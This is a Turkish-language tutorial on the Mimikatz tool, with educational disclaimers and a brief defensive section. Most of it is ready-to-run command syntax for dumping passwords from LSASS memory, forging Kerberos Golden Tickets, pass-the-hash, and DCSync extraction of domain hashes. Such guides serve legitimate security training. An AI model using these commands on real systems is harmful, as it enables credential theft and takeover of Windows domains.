 # Mimikatz Kullanım Rehberi

## Mimikatz Nedir?

Mimikatz, güvenlik araştırmacısı **Benjamin Delpy** tarafından geliştirilen açık kaynaklı bir araçtır. Temel olarak, Windows işletim sistemlerinde kimlik bilgileri ve parolalar gibi kritik bilgileri çıkarmak için kullanılır. Mimikatz, hem saldırganlar hem de güvenlik profesyonelleri tarafından yaygın olarak kullanılmaktadır.

> **Önemli Not:** Mimikatz yasal olarak yalnızca test laboratuvarlarında veya sahibinin izni olan sistemlerde kullanılmalıdır. Aksi takdirde yasa dışıdır ve etik dışı sonuçlara yol açabilir.

---

## Ana Özellikleri

1. **LSASS (Local Security Authority Subsystem Service) belleğinden parolaları çıkarma**
2. **Kerberos biletlerini okuma, kaydetme ve manipüle etme**
3. **Altın Bilet (Golden Ticket) ve Gümüş Bilet (Silver Ticket) oluşturma**
4. **Pass-The-Hash saldırıları**
5. **Credential Dumping**
6. **SSP (Security Support Provider) oturum açma bilgilerini görüntüleme**
7. **Komut satırı tabanlı çalıştırma ve betik yazımı**

---

## İndirme ve Çalıştırma

Mimikatz, GitHub üzerinden indirilebilir:

- [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)

### Çalıştırma Adımları

1. **İndir ve Ayıkla:**
   ```bash
   git clone https://github.com/gentilkiwi/mimikatz.git
   cd mimikatz/Win32
   ```
2. **Çalıştır:**
   Windows üzerinde PowerShell veya CMD kullanarak Mimikatz çalıştırabilirsiniz:
   ```cmd
   mimikatz.exe
   ```

---

## Kullanım Parametreleri

Aşağıda Mimikatz'ın en yaygın kullanılan modülleri ve parametreleri açıklanmıştır.

### 1. **`privilege::debug`**
- Yüksek ayrıcalıkların gerekli olduğu işlemler için kullanılır.

  ```cmd
  privilege::debug
  ```
  Bu komut, Mimikatz'ı sistem üzerinde daha fazla ayrıcalıkla çalıştırır.

### 2. **`sekurlsa::logonpasswords`**
- LSASS belleğindeki oturum bilgilerini görüntüler.

  ```cmd
  sekurlsa::logonpasswords
  ```
  **Not:** Yalnızca `Administrator` yetkileriyle çalışır.

### 3. **`sekurlsa::wdigest`**
- WDigest protokolüyle oturum açma bilgilerinin düz metin parolalarını görüntüler.

  ```cmd
  sekurlsa::wdigest
  ```

### 4. **`kerberos::list`**
- Kerberos biletlerini görüntüler.

  ```cmd
  kerberos::list /export
  ```
  **Not:** Bu komut ile Kerberos biletlerini dışa aktarabilirsiniz.

### 5. **`kerberos::golden`**
- Altın Bilet oluşturur. Bu bilet, Active Directory ortamlarında sınırsız erişim sağlar.

  ```cmd
  kerberos::golden /user:<username> /domain:<domainname> /sid:<domain_SID> /krbtgt:<krbtgt_hash> /id:<RID>
  ```

  **Parametreler:**
  - `user`: Kullanıcı adı
  - `domain`: Domain adı (örn: example.com)
  - `sid`: Domain'in SID değeri
  - `krbtgt`: Kerberos Ticket Granting Ticket hash değeri
  - `id`: Kullanıcının RID değeri (ör: 500 admin için)

### 6. **`sekurlsa::pth`**
- Pass-the-Hash saldırısı için kullanılır.

  ```cmd
  sekurlsa::pth /user:<username> /domain:<domainname> /ntlm:<hash> /run:<command>
  ```

  **Parametreler:**
  - `user`: Kullanıcı adı
  - `domain`: Domain adı
  - `ntlm`: NTLM hash değeri
  - `run`: Çalıştırılacak komut (ör: cmd.exe)

### 7. **`token::list`**
- Sistem üzerindeki tokenları listeler.

  ```cmd
  token::list
  ```

### 8. **`lsadump::dcsync`**
- Domain Controller'daki kimlik bilgilerini döker. Bu yöntem ile `NTLM` ve `Kerberos` hash bilgilerini çekebilirsiniz.

  ```cmd
  lsadump::dcsync /user:<username>
  ```

  **Örnek:**
  ```cmd
  lsadump::dcsync /user:krbtgt
  ```

### 9. **`misc::cmd`**
- Sistem üzerinde bir komut çalıştırır.

  ```cmd
  misc::cmd
  ```

### 10. **`exit`**
- Mimikatz oturumundan çıkış yapar.

  ```cmd
  exit
  ```

---

## Örnek Kullanım Senaryoları

### 1. WDigest ile Parola Çıkarma
```cmd
privilege::debug
sekurlsa::wdigest
```

### 2. Pass-the-Hash Kullanımı
```cmd
sekurlsa::pth /user:Administrator /domain:example.com /ntlm:<hash> /run:cmd.exe
```

### 3. Altın Bilet Oluşturma
```cmd
kerberos::golden /user:Administrator /domain:example.com /sid:S-1-5-21-1234567890 /krbtgt:<krbtgt_hash> /id:500
```

### 4. LSASS Belleğini Okuma
```cmd
privilege::debug
sekurlsa::logonpasswords
```

---

## Güvenlik ve Önlemler

- LSASS belleğinin okunmasını önlemek için **WDigest** devre dışı bırakılmalıdır:
  ```cmd
  reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
  ```

- Anti-Virus ve Endpoint Detection and Response (EDR) araçları Mimikatz'ı algılayabilir. Ancak bu tür araçlar test ortamlarında devre dışı bırakılabilir.

---

## Kaynaklar

- [Resmi GitHub Sayfası](https://github.com/gentilkiwi/mimikatz)
- [Benjamin Delpy Twitter](https://twitter.com/gentilkiwi)

---

> **Uyarı:** Bu rehber, yalnızca eğitim ve araştırma amaçlıdır. Yetkisiz kullanımlar yasa dışıdır.
